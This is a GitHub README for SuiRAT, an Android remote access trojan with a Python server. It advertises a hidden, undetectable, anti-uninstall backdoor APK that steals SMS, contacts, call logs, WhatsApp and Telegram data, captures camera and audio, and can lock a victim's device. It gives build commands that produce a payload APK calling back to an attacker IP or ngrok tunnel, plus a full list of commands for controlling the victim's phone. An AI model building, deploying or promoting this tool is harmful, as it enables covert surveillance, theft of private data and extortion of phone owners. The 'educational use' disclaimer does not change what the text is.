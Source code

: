 <p align="center">
<img src="https://github.com/alewana/SuiRAT/blob/3801fe91238db3fd972e5b6da317e3dc4483d987/SuiRAT.png" height="60"><br>
SuiRAT is a client/server application developed in Java Android for the client side and the Server is in Python
</p>



## Features
- ✅ Fud Apk
- ✅ Anti Uninstall Android (4.4 to 10)
- ✅ Light Weight Apk Which Runs 24*7 in Background
- ✅ Full Persistent Backdoor 
- ✅ Invisible Icon On Install
- ✅ Real Time
- ✅ Receive Any File or Folder From Target Device
- ✅ Bind With Other Apps
- ✅ Fetch All Whatsapp Photo,Video
- ✅ Fetch All Ahatsapp Contacts
- ✅ Receive All Target Message
- ✅ Send Sms With Target Device To Any Number
- ✅ Recive All Target Contacts
- ✅ Fetch All Telegram Contacts
- ✅ Fetch All Telegram Docs,Image,VideosVideos
- ✅ Get Ip Address From Target Device
- ✅ Get MacAddress From Target Device
- ✅ Receive List of All Installedd Apps In Target Device
- ⏳ Delete Any File Or Folder From Target Device
- ⏳ Capture Main And Front Camera
- ⏳ Record Main And Front Camera
- ⏳ Capture Microphone
- ⏳ Receive last Clipboard Text



## TODO
- ~~Ngrok Support~~
- Add screenshot command
- Add Screen Mirroring
- Add WebPanel

## Installation
### For Termux Users
- `apt update -y`
- `apt upgrade -y`
- `apt install python -y`
- `apt install python2 -y`
- `apt install python3 -y`
- `apt install git -y`
- `apt install openjdk-17 -y`
- `curl -s https://raw.githubusercontent.com/rendiix/rendiix.github.io/master/install-repo.sh`
- `pkg install zipalign'
- `git clone https://github.com/alewana/SuiRAT.git`
- `cd SuiRAT`
- `pip install -r requirements.txt`

## Prerequisites
SuiRAT requires Python3 and JAVA (or Android Studio)

### For Linux/Nethunter
1. Install NodeJs `apt install nodejs`

2. Clone `git clone https://github.com/alewana/SuiRAT.git`

3. Goto server directory `cd SuiRAT`

4. Install Requirements `pip install -r requirements.txt`

##### SuiRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> SuiRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 


After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
     deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a interactive shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    Dump Telegram [Premium] --> Dump Telegram Docs,Images,Video 
    getIP                      --> returns the ip of the device
    Dump Whatsapp [Premium]  -> Dump Whatsapp Database Massages
    getClipData                --> return the current saved text from the clipboard
    getMACAddress            --> returns the mac address of the device
    Lock Device  [Premium]   --> Lock Mobile with 256 bit Encryption
    Unlock Device.          --> Unlock Victim Mobile with 256 Decryption
    exit                       --> exit the SuiRAT
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 SuiRAT.py --build --ngrok -o Payload.apk```

* To build the apk using desired ip and port:
```python3 SuiRAT.py --build -i 192.169.x.x -p 8000 -o Payload.apk```

* To get the interpreter:
```python3 SuiRAT.py --shell -i 0.0.0.0 -p 8000```


### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 SuiRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "alewana.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 SuiRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 SuiRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

## Thanks
 - Inspiration for the project and the basic building blocks for the Android App are based off [AndroRAT](https://github.com/karma9874/AndroRAT) 
 
## Contact Info

Any Problem Contact Me [Telegram]

## Disclaimer
<b>I ( Ahtisham a.k.a AlewanaEzexer )  Provides no warranty with this software and will not be responsible for any direct or indirect damage caused due to the usage of this tool.<br>
SuiRAT is built for both Educational and Internal use ONLY.</b>
